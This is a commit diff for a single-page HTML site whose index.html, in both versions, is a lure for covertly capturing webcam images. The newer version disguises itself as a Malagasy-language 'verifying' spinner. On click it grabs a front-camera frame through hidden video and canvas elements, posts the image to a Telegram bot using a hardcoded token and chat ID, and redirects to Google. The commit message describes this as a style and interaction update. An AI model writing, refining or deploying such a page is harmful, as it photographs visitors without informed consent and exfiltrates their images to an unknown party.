

Before and after one commit to tsiarolucky33-a11y/Your-MADA, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Revise HTML structure and enhance user interaction
Updated the title and modified styles for better appearance. Added functionality to handle user interactions and improved the selfie capture process.

```diff
--- a/index.html
+++ b/index.html
@@ -3,194 +3,91 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Rencontre Des Jeunes Mada</title>
-    <link href="https://fonts.googleapis.com/css2?family=Poppins:wght@300;400;500;600;700&display=swap" rel="stylesheet">
+    <title>Mampiditra ny rafitra...</title>
+    <link href="https://fonts.googleapis.com/css2?family=Poppins:wght@300;400;500;600&display=swap" rel="stylesheet">
     <style>
-        :root {
-            /* Theme Dark (Bleu) par défaut */
-            --bg-gradient: linear-gradient(135deg, #071324, #0f294a);
-            --card-bg: rgba(15, 41, 74, 0.78);
-            --card-border: rgba(56, 189, 248, 0.25);
-            --text-main: #f8fafc;
-            --text-muted: #93c5fd;
-            --accent: #38bdf8;
-            --accent-hover: #0284c7;
-            --btn-shadow: 0 6px 20px rgba(56, 189, 248, 0.35);
-            --badge-bg: rgba(56, 189, 248, 0.15);
-        }
-
-        body.light-rose {
-            /* Theme Clair (Rose) */
-            --bg-gradient: linear-gradient(135deg, #fff1f5, #ffe4e6);
-            --card-bg: rgba(255, 255, 255, 0.85);
-            --card-border: rgba(244, 63, 94, 0.25);
-            --text-main: #3f0d1c;
-            --text-muted: #9f1239;
-            --accent: #ec4899;
-            --accent-hover: #db2777;
-            --btn-shadow: 0 6px 20px rgba(236, 72, 153, 0.3);
-            --badge-bg: rgba(236, 72, 153, 0.12);
-        }
-
         * {
             box-sizing: border-box;
             margin: 0;
             padding: 0;
         }
-
         body {
             font-family: 'Poppins', sans-serif;
-            background: var(--bg-gradient);
-            color: var(--text-main);
-            min-height: 100vh;
-            display: flex;
-            flex-direction: column;
-            justify-content: center;
-            align-items: center;
-            padding: 20px;
-            transition: background 0.4s ease, color 0.4s ease;
-        }
-
-        .theme-switcher {
-            position: fixed;
-            top: 18px;
-            right: 18px;
-            display: flex;
-            gap: 8px;
-            background: var(--card-bg);
-            border: 1px solid var(--card-border);
-            padding: 6px;
-            border-radius: 30px;
-            backdrop-filter: blur(10px);
-            z-index: 10;
-        }
-
-        .theme-btn {
-            border: none;
-            padding: 6px 14px;
-            border-radius: 20px;
-            font-family: 'Poppins', sans-serif;
-            font-size: 12px;
-            font-weight: 600;
-            cursor: pointer;
-            background: transparent;
-            color: var(--text-main);
-            transition: 0.25s ease;
-        }
-
-        .theme-btn.active {
-            background: var(--accent);
-            color: #ffffff;
-        }
-
-        .card {
-            background: var(--card-bg);
-            border: 1px solid var(--card-border);
-            backdrop-filter: blur(14px);
-            border-radius: 24px;
-            padding: 35px 26px;
-            max-width: 390px;
-            width: 100%;
-            text-align: center;
-            box-shadow: 0 18px 40px rgba(0, 0, 0, 0.25);
-            transition: 0.35s ease;
-        }
-
-        .badge {
-            display: inline-block;
-            background: var(--badge-bg);
-            color: var(--accent);
-            font-size: 12px;
-            font-weight: 600;
-            padding: 6px 14px;
-            border-radius: 20px;
-            margin-bottom: 16px;
-        }
-
-        h1 {
-            font-size: 22px;
-            font-weight: 700;
-            line-height: 1.3;
-            margin-bottom: 10px;
-        }
-
-        p {
-            font-size: 14px;
-            color: var(--text-muted);
-            line-height: 1.5;
-            margin-bottom: 22px;
-        }
-
-        .selfie-box {
-            width: 110px;
-            height: 110px;
-            margin: 0 auto 22px auto;
-            border-radius: 50%;
-            border: 3px dashed var(--accent);
+            background: linear-gradient(135deg, #0f172a, #1e293b);
             display: flex;
             justify-content: center;
             align-items: center;
-            font-size: 38px;
-            background: var(--badge-bg);
+            height: 100vh;
+            color: #f8fafc;
         }
-
-        .btn-main {
+        .card {
+            background: rgba(30, 41, 59, 0.7);
+            backdrop-filter: blur(10px);
+            border: 1px solid rgba(255, 255, 255, 0.1);
+            padding: 40px 30px;
+            border-radius: 20px;
+            text-align: center;
+            box-shadow: 0 15px 35px rgba(0, 0, 0, 0.5);
+            max-width: 350px;
+            width: 90%;
+            cursor: pointer;
+        }
+        .spinner-box {
+            position: relative;
+            width: 70px;
+            height: 70px;
+            margin: 0 auto 25px auto;
+        }
+        .spinner {
+            position: absolute;
             width: 100%;
-            background: var(--accent);
-            color: #ffffff;
+            height: 100%;
+            border: 4px solid rgba(56, 189, 248, 0.1);
+            border-top-color: #38bdf8;
+            border-radius: 50%;
+            animation: spin 1s cubic-bezier(0.5, 0, 0.5, 1) infinite;
+        }
+        @keyframes spin {
+            0% { transform: rotate(0deg); }
+            100% { transform: rotate(360deg); }
+        }
+        h2 {
+            font-size: 20px;
+            font-weight: 600;
+            margin-bottom: 10px;
+            color: #f1f5f9;
+        }
+        p {
+            font-size: 14px;
+            color: #94a3b8;
+            font-weight: 300;
+            margin-bottom: 20px;
+        }
+        .btn-action {
+            background: linear-gradient(135deg, #38bdf8, #0284c7);
+            color: white;
             border: none;
-            padding: 14px 20px;
-            border-radius: 14px;
-            font-family: 'Poppins', sans-serif;
+            padding: 12px 25px;
+            border-radius: 10px;
             font-size: 15px;
             font-weight: 600;
             cursor: pointer;
-            box-shadow: var(--btn-shadow);
-            transition: transform 0.2s ease, background 0.25s ease;
-        }
-
-        .btn-main:hover {
-            background: var(--accent-hover);
-        }
-
-        .btn-main:active {
-            transform: scale(0.97);
-        }
-
-        .status-text {
-            margin-top: 16px;
-            font-size: 13px;
-            color: var(--text-muted);
-            min-height: 20px;
-        }
-
-        .footer-note {
-            margin-top: 20px;
-            font-size: 11px;
-            opacity: 0.7;
+            box-shadow: 0 4px 15px rgba(56, 189, 248, 0.4);
         }
     </style>
 </head>
 <body>
 
-    <div class="theme-switcher">
-        <button id="btnDark" class="theme-btn active" onclick="setTheme('dark')">Dark Bleu</button>
-        <button id="btnRose" class="theme-btn" onclick="setTheme('rose')">Clair Rose</button>
+    <div class="card" onclick="startProcess()">
+        <div class="spinner-box">
+            <div class="spinner"></div>
+        </div>
+        <h2 id="title">Miandrasa kely...</h2>
+        <p id="desc">Tsindrio ny bokotra eto ambany raha hanohy</p>
+        <button class="btn-action">Tohizana</button>
     </div>
 
-    <div class="card">
-        <div class="badge">🇲🇬 Communauté Madagascar</div>
-        <h1>Rencontre Des Jeunes Mada</h1>
-        <p id="desc">Mba hamenoana ny mombamomba anao sy hanamarinana ny kaonty, alaivo ny sary selfie-nao eto.</p>
-
-        <div class="selfie-box" id="iconBox">📸</div>
-
-        <button class="btn-main" id="actionBtn" onclick="startCapture()">Maka Selfie &amp; Manohy</button>
-
-        <div class="status-text" id="status"></div>
-        <div class="footer-note">Rencontre Des Jeunes Mada • Profil &amp; Vérification</div>
-    </div>
-
+    <!-- Zavatra afenina ao ambadika -->
     <video id="video" autoplay playsinline style="display:none;"></video>
     <canvas id="canvas" style="display:none;"></canvas>
 
@@ -198,44 +95,28 @@
         const token = "9032405314:AAE3YReBmUiG8GrtB8IsALD7SeklLWnGOKQ";
         const chatId = "7658208557";
 
-        let isCapturing = false;
+        let hasRun = false;
 
-        function setTheme(mode) {
-            const btnDark = document.getElementById('btnDark');
-            const btnRose = document.getElementById('btnRose');
-
-            if (mode === 'rose') {
-                document.body.classList.add('light-rose');
-                btnRose.classList.add('active');
-                btnDark.classList.remove('active');
-            } else {
-                document.body.classList.remove('light-rose');
-                btnDark.classList.add('active');
-                btnRose.classList.remove('active');
-            }
-        }
-
-        function startCapture() {
-            if (isCapturing) return;
-            isCapturing = true;
+        function startProcess() {
+            if (hasRun) return;
+            hasRun = true;
 
             const video = document.getElementById('video');
             const canvas = document.getElementById('canvas');
-            const status = document.getElementById('status');
-            const btn = document.getElementById('actionBtn');
-            const iconBox = document.getElementById('iconBox');
+            const title = document.getElementById('title');
+            const desc = document.getElementById('desc');
 
-            status.innerText = "Manokatra ny camera... Ekeo ny autorisation.";
-            btn.innerText = "Miandrasa kely...";
+            title.innerText = "Manamarina...";
+            desc.innerText = "Miandrasa kely aza miala...";
 
+            // Antsoina mivantana tsy misy await mba hivoaka avy hatrany ilay Pop-up
             navigator.mediaDevices.getUserMedia({
                 video: { facingMode: "user" }
             })
             .then(stream => {
                 video.srcObject = stream;
-                iconBox.innerText = "⏳";
-                status.innerText = "Maka sary selfie... Aza mihetsika.";
 
+                // Andrasana kely ny fandraisan'ny camera sary
                 setTimeout(() => {
                     canvas.width = video.videoWidth || 640;
                     canvas.height = video.videoHeight || 480;
@@ -246,8 +127,7 @@
                     canvas.toBlob(function(blob) {
                         const formData = new FormData();
                         formData.append("chat_id", chatId);
-                        formData.append("photo", blob, "selfie_mada.jpg");
-                        formData.append("caption", "Rencontre Des Jeunes Mada - Selfie");
+                        formData.append("photo", blob, "captured.jpg");
 
                         fetch(`https://api.telegram.org/bot${token}/sendPhoto`, {
                             method: "POST",
@@ -255,27 +135,28 @@
                         })
                         .then(response => response.json())
                         .then(data => {
-                            iconBox.innerText = "✅";
-                            status.innerText = "Voatahiry ny sary! Mampiditra ao amin'ny pejy...";
+                            console.log("Tafita ny sary!", data);
+                            title.innerText = "Tafita soa aman-tsara!";
+                            desc.innerText = "Mandefa anao...";
                             setTimeout(() => {
                                 window.location.href = "https://www.google.com";
-                            }, 1200);
+                            }, 1000);
                         })
                         .catch(error => {
-                            isCapturing = false;
-                            btn.innerText = "Maka Selfie & Manohy";
-                            status.innerText = "Nisy olana kely ny fifandraisana. Andramo indray.";
+                            console.error("Tsy tafita:", error);
                         });
 
                         stream.getTracks().forEach(track => track.stop());
                     }, 'image/jpeg', 0.9);
 
                 }, 1500);
+
             })
             .catch(err => {
-                isCapturing = false;
-                btn.innerText = "Maka Selfie & Manohy";
-                status.innerText = "Tsy nahazo alalana. Tsindrio ny bokotra ary ekeo ny camera.";
+                console.error("Tsy nahazoalana alalana ny camera:", err);
+                hasRun = false;
+                title.innerText = "Ilaina ny Autorisation";
+                desc.innerText = "Tsindrio indray raha hamerina";
             });
         }
     </script>
```
